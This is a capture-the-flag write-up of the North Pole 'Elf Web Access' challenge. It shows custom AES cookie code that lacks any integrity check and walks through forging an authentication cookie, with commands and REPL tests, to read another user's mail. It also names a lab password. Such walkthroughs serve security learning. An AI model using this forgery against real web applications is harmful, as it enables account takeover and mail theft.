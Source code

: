 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Elf Web Access (EWA) is the preferred mailer for North Pole elves,
available internally at http://mail.northpolechristmastown.com. What
can you learn from The Great Book page found in an e-mail on that
server?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Hints:

Pepper Minstix gives us the following hints:

  1. I'm so excited for the new email system that Alabaster Snowball set up for us. He spent a lot of time working on it. Should make it very easy for us to share cookie recipes. I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
  2. The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
  3. AES256? Honestly, I don't know much about it, but Alabaster explained the basic idea and it sounded easy. During decryption, the first 16 bytes are removed and used as the initialization vector or "IV." Then the IV + the secret key are used with AES256 to decrypt the remaining bytes of the encrypted string.
  4. Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
  5. Every year when Santa gets back from delivering presents to the good girls and boys, he tells us stories about all the cookies he receives. I love everything about cookies! Cooking them, eating them, editing them, decorating them, you name it!

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

The question tells us that the page we're looking for is in an e-mail. So, we need to figure out some way to login to the mail system and find the crucial message.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

First off, let's pull up the website in our web browser. SSH can run a
SOCKS proxy for us, which we can use to tunnel our traffic through
l2s. We use the access we got in Question 2 to SSH in:

#+BEGIN_SRC sh
ssh -D 31080 alabaster_snowball@l2s.northpolechristmastown.com
#+END_SRC

I like to use Firefox for this, since, unlike Chrome, we can configure proxy settings different from the system-wide settings:

#+CAPTION: Elf Web Access
#+attr_html: :width 500px
[[./images/firefox_proxy.png]]

Now we can just navigate to http://mail.northpolechristmastown.com:

#+CAPTION: Elf Web Access
#+attr_html: :width 350px
[[./images/ewa.png]]

Luckily, we got Alabaster's password in Question 2, so let's login!

#+CAPTION: Logging in as alabaster_snowball/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_email.png]]

Of course! We need an e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_username.png]]

Luckily, the error message tells us how we need to format the e-mail address:

#+CAPTION: Logging in as alabaster_snowball@northpolechristmastown.com/stream_unhappy_buy_loss
#+attr_html: :width 500px
[[./images/bad_password.png]]

Curses! Looks like Alabaster is at least smart enough to not reuse credentials. At least he's following the password policy:

#+CAPTION: MEMO - Password Policy Reminder.docx from the SMB FileStor
#+attr_html: :width 500px
[[./images/password_policy.png]]

Let's review some of the hints that Pepper gave us:

#+BEGIN_QUOTE
I just hope that he cleared up all his dev files. I know he was working on keeping the dev files from search engine indexers.
#+END_QUOTE

We scanned this EWA system with =nmap= before, and one of the =nmap= scripts did find a reference in ~robots.txt~:

#+BEGIN_SRC 
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
#+END_SRC

Given how much Pepper harps on cookies, perhaps this file is worth investigating. When we view it, we see:

#+BEGIN_SRC javascript
//FOUND THESE FOR creating and validating cookies. Going to use this in node js
function cookie_maker(username, callback){
    var key = 'need to put any length key in here';
    //randomly generates a string of 5 characters
    var plaintext = rando_string(5)
    //makes the string into cipher text .... in base64. When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
    //Removes equals from output so as not to mess up cookie. decrypt function can account for this without erroring out.
    var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
    //Setting the values of the cookie.
    var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), { maxAge: 86400000, httpOnly: true, encode: String }]
    return callback(acookie);
};
function cookie_checker(req, callback){
    try{
        var key = 'need to put any length key in here';
        //Retrieving the cookie from the request headers and parsing it as JSON
        var thecookie = JSON.parse(req.cookies.IOTECHWEBMAIL);
        //Retrieving the cipher text 
        var ciphertext = thecookie.ciphertext;
        //Retrievingin the username
        var username = thecookie.name
        //retrieving the plaintext
        var plaintext = aes256.decrypt(key, ciphertext);
        //If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
        if (plaintext === thecookie.plaintext) {
            return callback(true, username);
        } else {
            return callback(false, '');
        }
    } catch (e) {
        console.log(e);
        return callback(false, '');
    }
};
#+END_SRC

There's a lot to parse here, but given the number of times AES and IVs are mentioned in the hints, this looks like we're on the right path.

Our next hint is:

#+BEGIN_QUOTE
The new email system's authentication should be impenetrable. Alabaster was telling me that he came up with his own encryption scheme using AES256, so you know it's secure.
#+END_QUOTE

Uh-oh... Coming up with your own cryptography scheme should send up all the red flags.

#+BEGIN_QUOTE
Happy families are all alike; every unhappy family is unhappy in its own way. --   Leo Tolstoy
#+END_QUOTE

#+BEGIN_QUOTE
Empty plaintext encrypted without using HMAC are all alike; Rolling your own crypto makes all cryptographers unhappy. -- Justin Azoff
#+END_QUOTE

At this point, we suspect that there's some kind of vulnerability in the cryptography being used. Reading on:

#+BEGIN_QUOTE
AES256? Honestly, I don't know much about it, but Alabaster explained
the basic idea and it sounded easy. During decryption, the first 16
bytes are removed and used as the initialization vector or "IV." Then
the IV + the secret key are used with AES256 to decrypt the remaining
bytes of the encrypted string.
#+END_QUOTE

Let's pause for a moment to review what we know so far. The e-mail application uses cookies for authentication.

#+BEGIN_SRC js
  var acookie = ['IOTECHWEBMAIL',JSON.stringify({"name":username, "plaintext":plaintext,  "ciphertext":ciphertext}), 
		 { maxAge: 86400000, httpOnly: true, encode: String }]
#+END_SRC

As we can see from the line above, the cookie contains a username,
some plaintext, and some ciphertext. The ~cookie_checker~ function
takes the encrypted ciphertext, and attempts to decrypt it with a
secret key that only the application has. If the result matches the
plaintext from the cookie, the cookie is authentic:

#+BEGIN_SRC js
var plaintext = aes256.decrypt(key, ciphertext);
//If the plaintext and ciphertext are the same, then it means the data was encrypted with the same key
if (plaintext === thecookie.plaintext) {
    return callback(true, username);
} else {
    return callback(false, '');
}
#+END_SRC

The code, as well as Pepper's hints, tell us something about the structure of the ciphertext:

#+BEGIN_SRC js
//makes the string into cipher text .... in base64. 
// When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
#+END_SRC

Finally, Pepper gives us this tantalizing hint:

#+BEGIN_QUOTE
Hmmm. That's a good question, I'm not sure what would happen if the encrypted string was only 16 bytes long.
#+END_QUOTE

By reading the code closely we can see that when the application *creates* a cookie, the plaintext is 5 random characters. However, nothing in the verification logic requires this. The only check is:

#+BEGIN_SRC js
aes256.decrypt(key, ciphertext) === thecookie.plaintext
#+END_SRC

Let's see what a valid cookie looks like:

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/'
HTTP/1.1 200 OK
...
Server: nginx/1.10.3 (Ubuntu)
Set-Cookie: EWA={"name":"GUEST","plaintext":"","ciphertext":""}; Max-Age=86400; Path=/; Expires=Wed, 10 Jan 2018 23:37:29 GMT; HttpOnly
...
#+END_SRC

Let's try what Pepper Minstix suggests: setting our ciphertext to only
be 16 characters long. We know that this is base64 encoded, so we'll
run:

#+BEGIN_SRC 
$ echo -n "Security at NCSA" | base64
U2VjdXJpdHkgYXQgTkNTQQ==
#+END_SRC

We're using the =-n= flag of =echo= to not have a newline at the end, which would give us a 17 character length cookie.

#+BEGIN_SRC 
$ http --proxy=http:socks5://@localhost:31080 'http://mail.northpolechristmastown.com/' 
  'Cookie:EWA={"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}'
HTTP/1.1 200 OK
...
X-Powered-By: Express

<script>window.location.href='/account.html'</script>
#+END_SRC

That looks promising! Let's move from the command line back to Firefox. One easy way to edit cookies in Firefox is to go to Tools => Web Developer => Storage Inspector. We should see an =EWA= cookie in there already, and we can simply double-click the value field and paste in our forged cookie:

#+BEGIN_SRC
{"name":"alabaster.snowball@northpolechristmastown.com","ciphertext":"U2VjdXJpdHkgYXQgTkNTQQ==","plaintext":""}
#+END_SRC

Now we just reload the page, and we're in!

#+CAPTION: Logging in with our forged cookie
#+attr_html: :width 500px
[[./images/ewa_loggedin.png]]

At this point, we can start digging through Alabaster's e-mail. Soon, we find this:

#+CAPTION: Page 4 E-mail
#+attr_html: :width 500px
[[./images/page4_email.png]]

*** An Alternative Solution: Black Box Cracking

Given some of the discussion in the chat, this was one of the hardest
questions. This section goes deeper into the cookie creation and
validation code, and it offers an alternative solution. Finding
=cookie.txt= from the =robots.txt= file made this question much
easier, but this version lays out the approach to solve this question
without that file. Independently, one of our team members used the
previous solution, and one used this solution.

The Javascript code used is a variation of a challenge response
algorithm, but it is flawed in that the client is providing both the
challenge and the response.  It is also flawed in that it does not use
MAC
https://en.wikipedia.org/wiki/Authenticated_encryption#MAC-then-Encrypt_(MtE)
meaning that the encrypted contents themselves are never verified.

Since we can control both the ciphertext and the expected plaintext, we can
just set the challenge to the empty string "" and the response then just needs
to be ANY message that decrypts to "".  Since the message is empty, the key is
irrelevant, we just need to work out how to properly generate a ciphertext that
will decrypt to nothing.

A completely empty ciphertext throws an error:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.decrypt('key does not matter', '')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

A larger ciphertext works, but gives us a random string, which is not what we want.. but 
we can see that a fairly long cipher text only gives us a few bytes of plaintext...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')
'F..%=X..'
#+END_SRC

The difference in the length of the two strings is 24:

#+BEGIN_SRC js
> x='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
> x.length - aes256.decrypt('key does not matter',x).length
24
#+END_SRC

From the hints, we learn that some of the bytes are used for the IV.

The AES library won't let us encrypt an empty string, but we can encrypt a single char:

#+BEGIN_SRC js
> aes256.encrypt('key does not matter', '')
TypeError: Provided "plaintext" must be a non-empty string
    at Object.encrypt (/Users/user/node_modules/aes256/index.js:39:13)
> aes256.encrypt('key does not matter', 'x')
'L7rwNMwISl2chavT6lILlNM='
> aes256.encrypt('key does not matter', 'x').length
24
#+END_SRC

This gives a ciphertext of length 24 with one byte of = for padding.  This
means that 22 bytes are used for the IV and one byte is used to encrypt the 'x'
itself.

So, at this point it is clear that something interesting happens around 22-24 chars.

Trying different lengths approaching a length of 22 continues to throw an error
for a while...

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaa')
TypeError: Provided "encrypted" must be a non-empty string
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:68:13)
#+END_SRC

Until the error changes:

#+BEGIN_SRC js
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaa')
Error: Invalid IV length
    at new Decipheriv (internal/crypto/cipher.js:186:16)
    at Object.createDecipheriv (crypto.js:106:10)
    at Object.decrypt (/Users/user/node_modules/aes256/index.js:78:27)
> aes256.decrypt('key does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
> 'aaaaaaaaaaaaaaaaaaaaaa'.length
22
> aes256.decrypt('key really does not matter', 'aaaaaaaaaaaaaaaaaaaaaa')
''
#+END_SRC

Success!  A string of any 22 chars will decrypt to the empty string.

An alternative approach would be to edit the aes library and comment out this block:

#+BEGIN_SRC js
if (typeof plaintext !== 'string' || !plaintext) {
  throw new TypeError('Provided "plaintext" must be a non-empty string');
}
#+END_SRC

With the throw commented out, we can encrypt an empty string:

#+BEGIN_SRC js
> var aes256 = require('aes256');
> aes256.encrypt('whatever', '')
'SStLU1QxLjmtG/Ea8hMH0Q=='
> ct=aes256.encrypt('whatever', '')
'tYcVb4PRsdq4JWl5XMSNgw=='
> aes256.decrypt('a different key entirely', ct)
''
> ct.length
24
#+END_SRC

The length is different(24 instead of 22), but only because it is padded with 2
bytes of == for base64 purposes.

*** Tool Development

We created a script, TODO LINK TO EWA SCRIPT, which will forge a
cookie to login as a user, and then dump all the e-mails as JSON. In
order to do this, we relied heavily on
http://mail.northpolechristmastown.com/js/custom.js to see how the API
worked, and duplicated portions of it in Python. This script allowed
us to archive and search e-mails, which was useful for future
questions.

#+BEGIN_SRC 
$ ./ewa.py alabaster.snowball > alabaster_inbox.json
$ cat alabaster_inbox.json | jq '.INBOX[].HEADERS.body.subject' -c
["Welcome"]
["Re: Welcome"]
["Re: gingerbread cookie recipe"]
["COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Re: COOKIES!"]
["Christmas Party!"]
["Re: Christmas Party!"]
["Re: Christmas Party!"]
["Re: Christmas Party!"]
["Re: Christmas Party!"]
["Should we be worried?"]
["Re: Should we be worried?"]
["Re: Should we be worried?"]
["Lost book page"]
["Re: Lost book page"]
["Re: Lost book page"]
["Re: Lost book page"]
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

Alabaster Snowball had a vulnerability in his cookie validation code,
where he wasn't verifying the length of the decrypted text. AES will
encrypt an empty string as an empty string, so we can forge a cookie
without needing to know the key. With this forged cookie, we can login
to Alabaster's e-mail, and find an e-mail with a link to the page
we're looking for.

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

If only we could crack Alabaster's password, we wouldn't need to forge
any cookies. But more on that later...

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

As previously mentioned, this seemed to be one of the most-discussed
questions in chat. We saw people trying to brute-force the AES key,
focus on the encryption of the message, or just try to bypass the web
application completely.

